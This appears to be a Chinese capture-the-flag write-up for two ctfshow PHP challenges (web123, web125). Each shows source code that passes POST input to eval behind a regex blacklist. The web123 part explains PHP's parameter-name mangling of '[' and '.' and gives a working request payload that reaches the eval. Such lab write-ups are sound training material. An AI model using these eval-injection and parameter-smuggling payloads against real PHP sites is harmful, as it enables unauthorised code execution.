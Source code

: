 # web123

> 突破函数禁用

```
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

> 在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

```,COM
所以传入?CTF_SHOW=&CTF[SHOW.COM=&fun=echo%20$flag
```

![image-20220812182500549](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121825630.png?x-oss-process=hzy)

# web125

> php特性

```
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```
